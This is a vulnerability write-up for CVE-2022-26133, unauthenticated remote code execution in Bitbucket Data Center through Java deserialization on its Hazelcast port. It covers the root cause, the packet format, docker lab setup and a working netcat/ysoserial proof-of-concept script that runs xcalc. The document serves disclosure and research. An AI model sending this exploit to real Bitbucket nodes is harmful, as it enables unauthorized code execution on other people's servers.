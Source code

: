 ## Introduction


This write-up provides an overview of CVE-2022-26133 - Bitbucket Data Center - Java Deserialization Vulnerability [[1]](https://confluence.atlassian.com/security/multiple-products-security-advisory-hazelcast-vulnerable-to-remote-code-execution-cve-2016-10750-1116292387.html). A remote, unauthenticated attacker can exploit this vulnerability by sending a crafted packet to the Hazelcast port and achieve Remote Code Execution (RCE) on the Bitbucket Data Center.  This vulnerability is similar to CVE-2016-10750 [[2]](https://github.com/hazelcast/hazelcast/issues/8024) but is specific to Bitbucket. 



## TL;DR

Bitbucket Data Center makes use of Hazelcast [[3]](https://github.com/hazelcast/hazelcast) for in-memory data caching; by default port 5701 is used for Hazelcast. If an attacker could reach the Hazelcast port of a Bitbucket instance with a crafted network packet Bitbucket responds with the Cluster name of the Data Center Instance. If this cluster name is appended with a serialized payload [[4]](https://github.com/frohoff/ysoserial) and sent again to the Hazelcast port, the payload is deserialized at the cluster node leading to remote code execution on the node. A typical packet structure is as follows:


### Packet Structure of the Payload

```shell

--------------------------------------------------------------------------------------------
|                      |                   |                     |                         |
| size of group name   | group name of     | 0xFF 0xFF 0xFF 0x9C | serialized paylod       |
|       (4 bytes)      | Bitbucket cluster |                     | (e.g CommonsBeanutils1) |
--------------------------------------------------------------------------------------------
```

### POC

```shell

#!/usr/bin/env bash

BITBUCKET_IP=${1:-'127.0.0.1'}
BITBUCKET_HAZELCAST_PORT=${2:-'5701'}
YSOSERIAL_JAR=${3:-'/home/snowyowl/workspace/tools/ysoserial/ysoserial-master-SNAPSHOT.jar'}

# send a dummy probe packet to retrieve the cluster name
# e.g the below sets the length as 2 bytes and sends a dummy 2 bytes
printf "\x00\x00\x00\x02\x73\x61" | nc -nv "$BITBUCKET_IP"  "$BITBUCKET_HAZELCAST_PORT" > cluster-name.bin

# generate the serialized payload using ysoserial with the CommonsBeanutils1 gadget.
java -jar "$YSOSERIAL_JAR" CommonsBeanutils1 xcalc > CommonsBeanutils1.bin

# append header packets to the serialized payload, this is required for the hazelcast to correctly deserialize the payload
# create the final payload by joining the cluster name and the serialized payload with the header.
printf "\xFF\xFF\xFF\x9C" | cat cluster-name.bin - CommonsBeanutils1.bin > payload.bin

# send the payload to the bitbucket cluster
nc -nv "$BITBUCKET_IP"  "$BITBUCKET_HAZELCAST_PORT" < payload.bin

```


### The Vulnerability

The detection of the vulnerability primarily involved a white box testing approach. As detailed in the Hazelcast issue report [[2]](https://github.com/hazelcast/hazelcast/issues/8024), CVE-2016-10750 primarily involved modifying the Hazelcast cluster join procedure to include a serialized payload (e.g CommonsBeanutils1). However this approach was failing on Bitbucket Data Center. 

To further analyze the issue the Bitbucket jar files was decompield and source code was analyzed in conjunction to the Hazelcast reference manual [[5]](https://docs.hazelcast.com/imdg/3.12/). A rough sequence diagram was created along the way to better understand how the JoinRequest was processed inside the Bitbucket node. 

It has been observed that hazelcast join sequence is intercepted by a com.atlassian.stash.internal.cluster.ClusterJoinSocketInterceptor class that implements com.hazelcast.nio.MemberSocketInterceptor interface [[5]](https://docs.hazelcast.com/imdg/3.12/security/socket-interceptor). The ClusterJoinSocketInterceptor relied on com.atlassian.stash.internal.cluster.SharedSecretClusterAuthenticator class to perform a basic authentication using cluster name and password that was set during the Bitbucket Data Center Installation. To restate it differently a custom network authentication protocol has been implemented inside SharedSecretClusterAuthenticator on top of the Hazelcast JoinRequest. So initally it seemed that the exploit was closed on the Bitbucket end.


Inspired by the excellent research of GHSL researcher Man Yue Mo [[6]](https://securitylab.github.com/research/in-memory-data-grid-vulnerabilities/) a second round of manual code review was performed and a readObject method was noticed inside the SharedSecretClusterAuthenticator. The runMutualChallengeResponse method inside the SharedSecretClusterAuthenticator was invoking a receiveObject that was in-turn using a readObject method on the raw input stream from the Hazelcast port. It would have been a lot faster, if CodeQL could have been used for this analysis however only the decompileld source was available and using CodeQL without building the source code seemed quite challenging.  


![runMutualChallengeResponse](images/runMutualChallengeResponse.png)

To reach this execution path the GroupName (cluster name) of the Bitbucket node was required. Luckily this was directly accessible by sending a probe to the HazelCast port.


![verifyGroupName](images/verifyGroupName.png)

 The probe is a nothing but a basic TCP packet with the data bytes set as per the below structure.

```shell
------------------------------------------------
|                          |                   |
| Size of following field  |    random bytes   |
|      (4 bytes )          |    (size bytes)   |
------------------------------------------------

```

Bitbucket server responds with the groupname of the cluster prepended with the length (in bytes) of the group name. This response packet can then be used directly in crafting the final payload.

```shell

# send a dummy probe packet to retrieve the cluster name
# e.g the below sets the length as 2 bytes and sends  2 bytes (don't care - dummy bytes)
printf "\x00\x00\x00\x02\x73\x61" | nc -nv "$BITBUCKET_IP"  "$BITBUCKET_HAZELCAST_PORT"

```






### Exploit

1. Use the below commands to create Bitbucket Data Center cluster on docker

```shell

git clone https://github.com/snowyyowl/writeups.git

cd CVE-2022-26133/scripts

# setup the first node
./setup-bitbucket-docker.sh --bitbucket-docker-base-port 3000  --bitbucket-version 7.20.0 -p bitbucket-v7-20  --bitbucket-setup-base-node

# complete the setup in the Web GUI and then stop the bitbucket instance (Ctrl + C )

# allow xauth from docker so that the calc can pop-up
xhost + 

# setup the subsequent node and the loadbalancer
./setup-bitbucket-docker.sh --bitbucket-docker-base-port 3000  --bitbucket-version 7.20.0 -p bitbucket-v7-20 

``` 

2. Run the POC script

```shell

./bitbucket-hazelcast-rce-poc.sh 

# update the port to Hazelcast port on the second node (e.g 3060) to get RCE on the second node

```

![hazelcast-rce](images/bitbucket-hazelcast-rce-poc.png)


#### Probe Packet to Query Cluster Name

![wireshark-query-bitbucket-cluster-name](images/wireshark-query-bitbucket-cluster-name.png)


#### Response Packet from Bitbucket

![wireshark-bitbucket-response-cluster-name](images/wireshark-bitbucket-response-cluster-name.png)


#### Payload to trigger RCE

![wireshark-bitbucket-payload](images/wireshark-bitbucket-payload.png)


The full wireshark capture may be downloaded from [here](wireshark/bitbucket-hazelcast-rce-wireshark.pcapng)

### Call Chain

![call-chain](images/BitBucketDeserializationCallChain.png)

## References
1. [Multiple Products Security Advisory - Hazelcast Vulnerable To Remote Code Execution](https://confluence.atlassian.com/security/multiple-products-security-advisory-hazelcast-vulnerable-to-remote-code-execution-cve-2016-10750-1116292387.html)
1. [Hazelcast is vulnerable to untrusted deserialization remote code execution #8024](https://github.com/hazelcast/hazelcast/issues/8024)
1. [Hazelcast](https://github.com/hazelcast/hazelcast)
1. [ysoserial](https://github.com/frohoff/ysoserial)
1. [Hazelcast Reference Manual](https://docs.hazelcast.com/imdg/3.12/)
1. [In-Memory Data Grid Applications: Finding Common Java Deserialization Vulnerabilities with CodeQL, Man Yue Mo](https://securitylab.github.com/research/in-memory-data-grid-vulnerabilities/)

